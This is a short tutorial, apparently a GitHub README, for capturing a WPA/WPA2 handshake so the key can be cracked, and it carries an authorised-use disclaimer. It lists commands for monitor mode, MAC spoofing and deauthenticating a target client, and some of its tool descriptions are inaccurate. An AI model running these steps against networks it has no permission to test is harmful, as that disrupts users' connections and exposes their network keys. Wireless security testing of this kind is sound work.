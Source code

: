 # WPA/WPA2 Handshake Capture Guide

This guide outlines hows to capture a WPA/WPA2 handshake in order to attempt to crack the pre-shared key using a wordlist.

## This guide is for educational purposes only. Unauthorized access to networks is illegal and unethical. Use only on networks you own or have explicit permission to test.

## Tools
- Kali Linux
- External wireless adapter
* airmon-ng - Enables monitor mode for adapter
* airodump-ng - Scans WPS-enabled access points
* aireplay-ng - Tools for WPS Pin

  ### Check for adapter
    sudo iwconfig

  ### Enable adapter if disabled.

  ### Bring Down network in adapter
    sudo ifconfig wlan0 down

  ### Terminate running processes
    sudo airmon-ng check kill

  ### Turn monitor mode for adapter
    sudo airmon-ng start wlan0

  ### Spoof MAC address
    sudo macchanger -r wlan0

  ### Determine which networks 5GHz or 2GHz to test
    sudo airodump-ng --band a wlan0

  ### Target a network
    sudo airodump-ng --bssid (Targeted Network MAC) --channel (Targeted Network Channel) --write (txt file, optional) wlan0

  ### Devices talking to network should be listed.

  ### using seperate command target a device, to shut down, in order for it ping for a handshake with network during restart.
    sudo aireplay-ng --deauth 4 -a (Target Network MAC) -c(Target Device MAC) wlan0
  
